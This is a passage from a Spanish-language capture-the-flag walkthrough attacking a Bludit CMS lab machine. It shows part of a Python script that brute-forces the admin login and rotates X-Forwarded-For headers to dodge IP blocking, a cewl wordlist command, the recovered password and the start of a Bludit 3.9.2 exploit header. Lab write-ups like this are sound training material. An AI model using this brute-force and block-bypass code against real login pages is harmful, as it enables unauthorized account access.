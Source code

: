 ```python
                'tokenCSRF' : tokenCSRF,
                'username' : 'fergus',
                'password' : '%s' % password.strip("\n") 
                }

# Usamos estos headers para saltarnos las restricciones de IP Block a nivel web
                headers_login = {

                'User-Agent' : 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
                'Referer' : 'http://10.10.10.191/admin/login',
                'X-Forwarded-For' : '%s' % password.strip('\n')
                }

# Barra de progreso de peticions * passwords
                p1.status("Probando con la password %s" % password.strip("\n"))

# Variable r que es la peticcion HTTP via POST y tramita con los siguientes argumentos
                r = s.post(main_url, data=data_post, headers=headers_login)

# Comprobacion de password correcta
                if "Username or password incorrect" not in r.text:
                        p1.success("La password es %s" % password.strip('\n'))
                        sys.exit(0)

if __name__ == '__main__':

        makeRequest()
```

Con el script listo para ejecutarse, procedemos a crearnos un `diccionario.txt` de las palabras de la web con la herramienta `"CEWL"`
[Uso de CEWL](https://esgeeks.com/como-utilizar-cewl/)
```bash
$ cewl http://10.10.10.191 -w diccionario.txt
``` 
Ejecutamos el script en python3 y nos reporta una password `"RolandDeschain"`

```bash
Buscamos google por BLUDIT CMS y vemos un repositorio de github con mas rutas interesantes como la de “bl-plugins”

 http://10.10.10.191/bl-plugins/backup/metadata.json
									
|                 author |                                                " Bludit" |
| email | "" |
| website | "https://plugins.bludit.com" |
| version | "3.9.2" |
| releaseDate | "2019-06-21" |
| license | "MIT" |
| compatible | "3.9.2" |
| notes | "" |
``` 
Ya tenemos la version del Bludit CMS, y tras una segunda busqueda encontramos este exploit en python3
```python
# Title: Bludit 3.9.2 - Directory Traversal
# Author: James Green
# Date: 2020-07-20
# Vendor Homepage: https://www.bludit.com
# Software Link: https://github.com/bludit/bludit
# Version: 3.9.2
# Tested on: Linux Ubuntu 19.10 Eoan# CVE: CVE-2019-16113
# 
```